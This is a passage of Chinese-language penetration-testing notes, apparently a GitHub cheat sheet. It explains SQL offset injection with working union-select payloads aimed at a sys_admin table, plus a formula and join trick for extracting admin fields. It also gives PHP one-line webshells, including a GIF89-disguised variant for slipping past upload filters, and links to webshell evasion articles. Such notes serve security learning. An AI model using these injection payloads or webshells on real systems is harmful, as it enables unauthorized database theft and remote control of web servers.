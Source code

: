 **偏移注入**
我们利用`"*"`代替admin表内存在的字段，由于是18个字段数，需要逐步测试，直到返回正常。
```sql
?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,* from sys_admin  #错误
?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from sys_admin     #错误
?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,* from sys_admin        #错误
直到.........
?id=1 union select 1,2,3,4,5,6,7,8,9,10,11,* from sys_admin #正确
```
说明了sys_admin表下有11个字段
**偏移注入的基本公式为:**
`order by 出的字段数减去*号的字段数，然而再用order by的字段数减去2倍刚才得出来的答案`
也就是18-11=7
18-7*2=4
得到答案等于：4

然后依旧是套公式的过程。

```sql
?id=1 union select 1,2,3,4,a.id,b.id,* from (sys_admin as a inner join sys_admin as b on a.id = b.id)
#这里union select 1,2,3,4：顾名思义就是刚才得出来的长度。
#后面的是sql，可作公式。
```
[移位溢注：告别依靠人品的偏移注入](https://gh0st.cn/archives/2017-03-08/1)


sql注入可参考的文章：
[sqli_lab总结](https://www.dazhuanlan.com/2020/03/01/5e5ad85325ae9/)
[SQL注入WIKI](http://sqlwiki.radare.cn/)
[再谈注入](https://xz.aliyun.com/t/9268)
[SQL注入漏洞详解](https://www.anquanke.com/post/id/235970)
[六问MySQL？你敢来挑战吗？](https://www.anquanke.com/post/id/235236)
[对MYSQL注入相关内容及部分Trick的归类小结](https://xz.aliyun.com/t/7169)
[注入地书——注入的基石](https://www.anquanke.com/post/id/254168)
[SQL注入之Mysql注入姿势及绕过总结](https://xz.aliyun.com/t/10594)
[【技术分享】一种新的MySQL下Update、Insert注入方法](https://www.anquanke.com/post/id/85487)
[SQL注入有趣姿势总结](https://xz.aliyun.com/t/5505)
[SQL注入：限制条件下获取表名、无列名注入](https://www.cnblogs.com/20175211lyz/p/12358725.html)
[MYSQL8.0注入新特性](https://xz.aliyun.com/t/8646)
[一次insert注入引发的思考](https://xz.aliyun.com/t/5099)
[Pgsql堆叠注入场景下通过CREATE FUNCTION来实现命令执行](https://www.anquanke.com/post/id/215954)
[XPATH注入学习](https://xz.aliyun.com/t/7791)
[PostgreSQL Injection](https://evi1cg.me/archives/PostgreSQL-Injection.html)
[玩得一手好注入之order by排序篇](https://blog.csdn.net/nzjdsds/article/details/82461922)
[Alternatives to Extract Tables and Columns from MySQL and MariaDB](https://osandamalith.com/2020/01/27/alternatives-to-extract-tables-and-columns-from-mysql-and-mariadb/)

### 文件上传，文件包含
a.php文件
```php
<?php @eval($_POST['pass']);?>
```
可替换为(**PHP7版本已经不支持了**)
```php
GIF89
<script language="php">@eval($_POST['pass']);</script>
```
[一句话木马的套路](https://www.freebuf.com/articles/web/195304.html)
[各种一句话木马大全](https://blog.csdn.net/l1028386804/article/details/84206143)
[PHP Webshell那些事——攻击篇](https://www.anquanke.com/post/id/212728)
[探讨新技术背景下的一句话免杀](https://www.anquanke.com/post/id/197624)
